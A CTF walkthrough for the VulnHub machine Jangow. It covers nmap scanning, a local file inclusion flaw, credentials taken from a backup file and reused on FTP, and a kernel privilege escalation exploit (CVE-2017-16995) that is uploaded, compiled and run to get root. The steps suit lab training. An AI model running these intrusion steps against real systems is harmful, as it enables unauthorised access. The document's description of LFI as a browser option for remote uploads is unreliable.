# JANGOW-1.0.1-Walkthrough-Vulnhub
Walkthrough and exploitation steps for the Jangow CTF machine from VulnHub.
## VulnHub CTF — Jangow Walkthrough

This is a walkthrough for the **Jangow** machine from VulnHub. It covers the entire exploitation process, including enumeration, LFI, credential discovery, privilege escalation, and finally rooting the machine.

---

### 1.Setup

- Import the `.ova` file into VirtualBox.
- Run the machine.
- Use `netdiscover` to identify its IP:

```bash
netdiscover -i eth0
```
## Result


I discovered the machine at `192.168.1.122`.

---

### 2.Port Scanning with Nmap

Initial port scan:

```bash
nmap 192.168.1.122
```
## Nmap Scan Result


Open ports:
- **80 (HTTP)**
- **21 (FTP)**
  
We see that ports 80 and 21 are open. 80 is an HTTP website port, while 21 is an FTP file transfer port. Now let's use nmap to scan them in detail. Command: nmap -p 80,21 -Pn -n -sC -sV -oN nmaptaramasi.txt 192.168.1.122

Detailed scan:

```bash
nmap -p 80,21 -Pn -n -sC -sV -oN nmap_scan.txt 192.168.1.122
```


**Flags used:**
- `-p`: specific ports
- `-Pn`: skip host discovery
- `-n`: skip DNS resolution
- `-sC`: run default scripts
- `-sV`: detect service versions
- `-oN`: save output to file

---

### 3.Web Enumeration

Visiting `http://192.168.1.122` reveals a website with a **"Buscar"** tab, which redirects to:

```
https://pwnlab.me/redirect?to=aHR0cDovLzE5Mi4xNjguNTYuMTE4L3NpdGUvYnVzcXVlLnBocD9idXNjYXI9
```



This link appears vulnerable to **Local File Inclusion (LFI)**. LFI allows us to upload files remotely. Since the machine is currently running locally, it's local, of course. If it can be uploaded to a remote server, it's RFI. Since I'm running the machine locally, I'll exploit LFI. 

##Local File Inclusion (LFI)
Local File Inclusion (LFI) is a web browser option that enables an attacker to include files on a server. When a web application contains a file before correctly filtering the input, this vulnerability occurs, allowing an attacker to modify the input, insert jump characters from the route, and provide other files from the webserver. It typically affects PHP applications.
By manipulating the URL, we can inspect the file structure and extract sensitive files.

---

### 4.Credential Discovery

Exploring the web root:

```bash
pwd
# /var/www/html/site

ls -all
```


Found a hidden file: `.backup`  
Contents of `.backup` reveal **MySQL credentials**. .backup has read and write permissions.
Also, since FTP port is open, I tested those credentials on the FTP service.

---


### 5.FTP Access & File Upload

Login to FTP using:

```bash
ftp 192.168.1.122
```

Credentials:
```
Username: jangow01
Password: abygurl69
```


We've now learned that we can put files inside. We'll try navigating to different directories and using the "put" command. Our goal here is to run the exploit we've installed and become root. To do this, we'll use Local Privilege Escalation. I'll go to my home directory and enter the directory named "jangow01."
Change to the user's home directory:

```ftp
cd /home/jangow01
```
```ftp
ls -all
```

Download the user flag:

```ftp
get user.txt
```

---

### 6.Privilege Escalation

Check the kernel version:

```bash
uname -a
# Linux jangow01 4.4.0-31-generic
```



Search for privilege escalation exploits and found:  
**CVE-2017-16995**
Downloaded and saved the exploit as `jangow.c`.
https://www.exploit-db.com/exploits/45010

Upload it via FTP:

```ftp
put jangow.c
```

---

### 7.Compilation & Exploitation

On the Jangow machine:
Now let's compile and assemble the .c file using the gcc command: gcc jangow.c -o jangow
Now to make it executable: chmod +x jangow
Then execute the script: ./jangow

```bash
gcc jangow.c -o jangow
chmod +x jangow
./jangow
```

Now you're root!

---

###8.Root Flag

Check the user:

```bash
whoami
# root
```

```bash
ls /root
cat /root/proof.txt
```

Get the flag:

**Machine successfully rooted!** 
